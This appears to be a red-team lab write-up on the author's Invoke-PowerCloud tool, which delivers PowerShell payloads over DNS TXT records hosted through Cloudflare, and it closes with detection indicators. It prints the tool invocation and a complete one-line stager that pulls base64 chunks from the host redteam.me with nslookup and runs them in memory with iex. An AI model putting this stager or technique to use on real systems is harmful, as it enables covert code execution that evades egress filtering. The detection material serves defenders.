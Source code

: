 ```yaml
---
description: >-
  This lab demos a tool or rather a Powershell script I have written to do what
  the title says.
---
```


# Powershell Payload Delivery via DNS using Invoke-PowerCloud

## Credits

Rushing to say that the tool [Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) was heavily inspired by and based on the awesome work that Dominic Chell \([@domchell](https://twitter.com/domchell)\) from [MDSec](https://twitter.com/MDSecLabs) had done with [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) - go follow them and try out the [tool](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) if you are not doing so yet!

Not only that, I want to thank Dominic for taking his time to answer some of my questions regarding the PowerDNS, the setup and helping me troubleshoot it as I was having "some" issues getting the payload delivered to the target from the PowerDNS server.

...which eventually led me to Invoke-PowerCloud, so read on.

## What is Invoke-PowerCloud?

[Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) is a script that allows you to deliver a powershell payload using DNS TXT records to a target in an environment that is egress limited to DNS only.

## How is Invoke-PowerCloud different from PowerDNS?

I assume you have read [PowerShell DNS Delivery with PowerDNS](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) which explains how PowerDNS works.

Invoke-PowerCloud works in a similar fashion, except for a couple of key differences, which may simplify the configuration process of your infrastructure to start delivering paylods via DNS.   
  
**With PowerDNS you need:**

* a dedicated linux box with a public IP where you can run PowerDNS, so it can act as a DNS server
* you also need multiple domain names to get the nameservers configured properly

**With Invoke-PowerCloud you need:**

* a cloudflare.com account
* a domain name whose DNS management is transferred to cloudflare

## Cloudflare? eh?

The way the tool works is by performing the following high level steps:

* Take the powershell payload file
* Divide the payload file into chunks of 255 bytes
* Create a DNS zone file with DNS TXT records representing each chunk of the payload data retrieved from the previous step in base64 format
* Send the generated DNS zone file to cloudflare using their APIs
* Generate two stagers for use with autoritative NS/non-authoritative NS
* Stager can then be executed on the victim system. The stager will recover the base64 chunks from the DNS TXT records and rebuild the original payload
* Stager executes the payload in memory!

{% hint style="info" %}
If you run the tool again to deliver another payload, the previous DNS TXT records will be deleted
{% endhint %}

## Demo

### One off Configuration

Remember - you need a cloudflare.com account for this to work. Assuming you have that, you need to edit the script to specify: 

1. your cloudflare API key, defined in the variable `$Global:API_KEY`
2. your cloudflare email address, defined in the variable `$Global:EMAIL`

![](../.gitbook/assets/screenshot-from-2018-10-15-22-11-03%20%281%29.png)

### DNS Management

Secondly, you need to move the domain name which you are going to use for payload delivery to cloudflare. In this demo, I will use a domain I own `redteam.me` which is now managed by cloudflare:

![](../.gitbook/assets/screenshot-from-2018-10-15-22-14-53.png)

Let's confirm redteam.me DNS is managed by cloudflare by issuing:

```text
host -t ns redteam.me
```

![](../.gitbook/assets/screenshot-from-2018-10-15-22-16-20.png)

### Payload

Let's create a simple payload file - it will print a red message to the screen and open up a calc.exe:

{% code-tabs %}
{% code-tabs-item title="payload.txt" %}
```csharp
Write-host -foregroundcolor red "This is our first payload using Invoke-
PowerCloud. As usual, let's pop the calc.exe"; Start-process calc.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Good to Go

We are now good to go - issue the below on your attacking system:

```csharp
PS C:\tools\powercloud> . .\powercloud.ps1; Invoke-PowerCloud -FilePath .\payload.txt -Domain redteam.me -Verbose
```

The script will generate two stagers. One of them is shown here:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$b64=""; (1..1) | ForEach-Object { $b64+=(nslookup -q=txt "$_.redteam.me")[-1] }; iex([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(($b64 -replace('\t|"',"")))))
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-15-22-47-26.png)

Let's execute the stager on the victim system to get the payload delivered via DNS:

![](../.gitbook/assets/screenshot-from-2018-10-15-22-47-12.png)

### Animated Demo

Everything in action can be seen in the below gif:

![](../.gitbook/assets/invoke-powercloud-demo.gif)

## Is Invoke-PowerCloud better than PowerDNS?

No. It just works slightly differently, but achieves the same end goal. Also note, that Cloudflare API rate limiting applies.

## Detection

Let's deliver a PowerShell empire payload using DNS and see how the system reacts to this:

![](../.gitbook/assets/empire-stager-via-dns.gif)

For those wondering about detection possibilities, the following is a list of signs \(mix and match\) that may qualify the host behaviour as `suspicious` that may warrant further investigation:

* host "suddenly" bursted "many" `DNS TXT` requests to one domain
* DNS queries follow the naming convention of 1, 2, 3, ..., N
* majority of DNS answers contain `TXT Lenght` of `255` \(trivial to change\)
* DNS answers are all `TTL = 120` \(trivial to change\)
* TXT data in DNS answer has no white spaces \(easy to change\)
* host suddenly/in a short span of time spawned "many" `nslookup` processes
* has the endpoint changed once the DNS lookups stopped? i.e new processes spawned?

Below is a snippet of the PCAP showing DNS traffic from the above demo - note the TXT Length and the data itself:

![](../.gitbook/assets/screenshot-from-2018-10-16-20-12-57.png)

Spike of `nslookup` for a host in a short amount of time:

![](../.gitbook/assets/screenshot-from-2018-10-16-20-17-42.png)

Below is a sample PCAP for your inspection:

{% file src="../.gitbook/assets/dns-packets.pcapng" caption="DNS Traffic Packet Trace" %}

## Download

You can download or contribute to Invoke-PowerCloud here:

{% embed url="https://github.com/mantvydasb/powercloud" %}

## References

{% embed url="https://github.com/mdsecactivebreach/PowerDNS" %}

{% embed url="https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/" %}

